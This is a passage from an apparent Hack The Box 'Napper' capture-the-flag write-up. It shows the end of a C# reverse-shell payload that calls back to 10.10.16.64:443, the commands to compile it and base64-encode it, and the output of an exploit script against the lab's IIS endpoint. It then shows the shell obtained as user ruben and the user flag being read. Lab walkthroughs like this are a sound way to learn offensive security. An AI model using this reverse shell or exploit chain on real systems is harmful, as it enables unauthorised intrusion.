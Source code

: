 ```
            {
                strOutput.Append(outLine.Data);
                streamWriter.WriteLine(strOutput);
                streamWriter.Flush();
            }
            catch (Exception) { }
        }
    }

    static void Main()
    {
        new Run();
    }
  }

  public class Run
  {
    public Run()
    {
        Program.BackConnect("10.10.16.64", 443);
    }
  }
}
```
I used mcs to compile it
Then use :

```
└─# mcs -out:payload.exe file.cs

└─# cat payload.exe| base64 -w 0 | xclip -sel clip
```
Past payload on python script.
```
┌──(root㉿1337)-[/home/…/Boot2root/HacktheBox/Season/shell]
└─# python3 exploit.py                            
https://napper.htb/ews/MsExgHealthCheckd/ : 200 {'Content-Length': '0', 'Content-Type': 'text/html; charset=utf-8', 'Server': 'Microsoft-IIS/10.0 Microsoft-HTTPAPI/2.0', 'X-Powered-By': 'ASP.NET', 'Date': 'Tue, 14 Nov 2023 13:57:24 GMT'}
e

```

```
whoami
C:\Users\ruben\Desktop>whoami
napper\ruben


 Volume Serial Number is CB08-11BF
 Directory of C:\Users\ruben\Desktop
06/09/2023  06:00 AM    <DIR>          .
06/09/2023  06:00 AM    <DIR>          ..
06/07/2023  06:02 AM             2,352 Microsoft Edge.lnk
11/14/2023  04:29 AM                34 user.txt
               2 File(s)          2,386 bytes
               2 Dir(s)   3,383,762,944 bytes free
type user.txt
C:\Users\ruben\Desktop>type user.txt
1461714b98a7fab43bce0e0ec20e05f8
```
## Privilege Escalation
first i will try to get a meterpreter.
```
```